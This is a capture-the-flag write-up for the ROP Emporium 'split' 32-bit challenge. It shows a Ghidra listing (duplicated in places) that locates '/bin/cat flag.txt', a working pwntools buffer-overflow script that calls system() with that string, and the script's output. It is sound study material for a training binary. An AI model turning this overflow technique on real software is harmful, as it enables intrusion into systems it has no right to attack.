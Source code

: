 ## Split
### Challenge Descirption : Combine elements from the ret2win challenge that have been split apart to beat this challenge. Learn how to use another tool whilst crafting a short ROP chain.

---
### HINT : I'll let you in on a secret; that useful string "/bin/cat flag.txt" is still present in this binary, as is a call to system(). It's just a case of finding them and chaining them together to make the magic happen.

---

So, we have a binary with a `system` function in built, and a string `/bin/cat flag.txt` . 

Let's open up the binary in ghidra and search for the string. In the .data section
```
                             //
                             // .data 
                             // SHT_PROGBITS  [0x804a028 - 0x804a049]
                             // ram: 0804a028-0804a049
                             //
                             __data_start                                    XREF[2]:     Entry Point(*), 
                             data_start                                                   _elfSectionHeaders::000003f4(*)  
        0804a028 00              ??         00h
        0804a029 00              ??         00h
        0804a02a 00              ??         00h
        0804a02b 00              ??         00h
                             __dso_handle                                    XREF[1]:     Entry Point(*)  
        0804a02c 00              ??         00h
        0804a02d 00              ??         00h
        0804a02e 00              ??         00h
        0804a02f 00              ??         00h
                             usefulString                                    XREF[1]:     Entry Point(*)  
                             //
                             // .data 
                             // SHT_PROGBITS  [0x804a028 - 0x804a049]
                             // ram: 0804a028-0804a049
                             //
                             __data_start                                    XREF[2]:     Entry Point(*), 
                             data_start                                                   _elfSectionHeaders::000003f4(*)  
        0804a028 00              ??         00h
        0804a029 00              ??         00h
        0804a02a 00              ??         00h
        0804a02b 00              ??         00h
                             __dso_handle                                    XREF[1]:     Entry Point(*)  
        0804a02c 00              ??         00h
        0804a02d 00              ??         00h
        0804a02e 00              ??         00h
        0804a02f 00              ??         00h
                             usefulString                                    XREF[1]:     Entry Point(*)  
        0804a030 2f 62 69        ds         "/bin/cat flag.txt"
                 6e 2f 63 
                 61 74 20 
        0804a042 00              ??         00h
        0804a043 00              ??         00h
        0804a044 00              ??         00h
        0804a045 00              ??         00h
        0804a046 00              ??         00h
        0804a047 00              ??         00h
        0804a048 00              ??         00h
        0804a049 00              ??         00h
        0804a030 2f 62 69        ds         "/bin/cat flag.txt"
                 6e 2f 63 
                 61 74 20 
        0804a042 00              ??         00h
        0804a043 00              ??         00h
        0804a044 00              ??         00h
        0804a045 00              ??         00h
        0804a046 00              ??         00h
        0804a047 00              ??         00h
        0804a048 00              ??         00h
        0804a049 00              ??         00h
```
A variable usefulString contains `/bin/cat flag.txt`

Now for the exploit 

Considering a buffer overflow vulnerability in the binary, we'll find a offset, then change EBP to point to the system function while passing usefulString as a parameter.

In the function call stack

![Image](stackframe.gif)

We will overflow the stack so that, we modify old%EBP to point to `system` with fcn param#1 to point to `usefulString`

so the final call stack looks like 

| OFFSET 	| System Address 	| 4 Bit old %EIP or JUNK 	| usefulString Address 	|
|--------	|----------------	|------------------------	|----------------------	|

Like before, we calculate the offset, which turns out to be `44`

`exploit.py`
```
from pwn import *

elf = context.binary = ELF('split32')

info("SYSTEM : %#x", elf.symbols.system)
info("STRING : %#x",elf.symbols.usefulString)


system = p32(elf.symbols.system)
strings = p32(elf.symbols.usefulString)
payload = 'A'*44 + system + p32(0xDEAD) + strings
io = process(elf.path)
io.recvuntil('>')
io.sendline(payload)
io.interactive()
```

`output`
```
python2 exploit.py 
[*] '/ropemporium/split/split32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] SYSTEM : 0x8048430
[*] STRING : 0x804a030
[+] Starting local process '/ropemporium/split/split32': pid 23992
[*] Switching to interactive mode
 ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Process '/ropemporium/split/split32' stopped with exit code -11 (SIGSEGV) (pid 23992)
```